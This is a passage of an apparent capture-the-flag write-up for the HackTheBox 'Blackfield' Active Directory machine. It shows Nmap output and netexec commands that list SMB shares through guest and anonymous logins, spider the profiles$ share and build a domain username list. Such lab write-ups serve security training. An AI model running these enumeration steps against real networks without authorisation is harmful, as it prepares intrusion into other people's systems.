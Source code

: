 ```bash
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

Important things to note based on Nmap's output:  
* Domain name: **_BLACKFIELD.LOCAL_**
* Host name: **_DC01_**
* WinRM available (_5985_)

Before proceed to enumerate the SMB and LDAP services, we should add ***blackfield.local*** & **_dc01.blackfield.local_** to our local DNS file (_/etc/hosts_).

```bash
# enumerating SMB shares
$ nxc smb 10.10.10.192 -u 'guest' -p '' --shares
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\guest:
SMB         10.10.10.192    445    DC01             [*] Enumerated shares
SMB         10.10.10.192    445    DC01             Share           Permissions     Remark
SMB         10.10.10.192    445    DC01             -----           -----------     ------
SMB         10.10.10.192    445    DC01             ADMIN$                          Remote Admin
SMB         10.10.10.192    445    DC01             C$                              Default share
SMB         10.10.10.192    445    DC01             forensic                        Forensic / Audit share.
SMB         10.10.10.192    445    DC01             IPC$            READ            Remote IPC
SMB         10.10.10.192    445    DC01             NETLOGON                        Logon server share
SMB         10.10.10.192    445    DC01             profiles$       READ
SMB         10.10.10.192    445    DC01             SYSVOL                          Logon server share
```

Spidering the ***profile$*** share reveals various usernames:

```bash
$ nxc smb 10.10.10.192 -u 'anonymous' -p '' --spider 'profiles$' --regex .
SMB         10.10.10.192    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:BLACKFIELD.local) (signing:True) (SMBv1:False)
SMB         10.10.10.192    445    DC01             [+] BLACKFIELD.local\anonymous:
SMB         10.10.10.192    445    DC01             [*] Started spidering
SMB         10.10.10.192    445    DC01             [*] Spidering .
SMB         10.10.10.192    445    DC01             //10.10.10.192/profiles$/. [dir]
SMB         10.10.10.192    445    DC01             //10.10.10.192/profiles$/.. [dir]
SMB         10.10.10.192    445    DC01             //10.10.10.192/profiles$/AAlleni [dir]
SMB         10.10.10.192    445    DC01             //10.10.10.192/profiles$/ABarteski [dir]
SMB         10.10.10.192    445    DC01             //10.10.10.192/profiles$/ABekesz [dir]
<SNIP>
SMB         10.10.10.192    445    DC01             [*] Done spidering (Completed in 55.86900997161865)

# create a username list
$ nxc smb 10.10.10.192 -u 'anonymous' -p '' --spider 'profiles$' --regex . > nxc_spider.txt
$ cat nxc_spider.txt | grep '[dir]' | cut -d'/' -f5 | cut -d' ' -f1 | sort | uniq > domain_users.txt
```

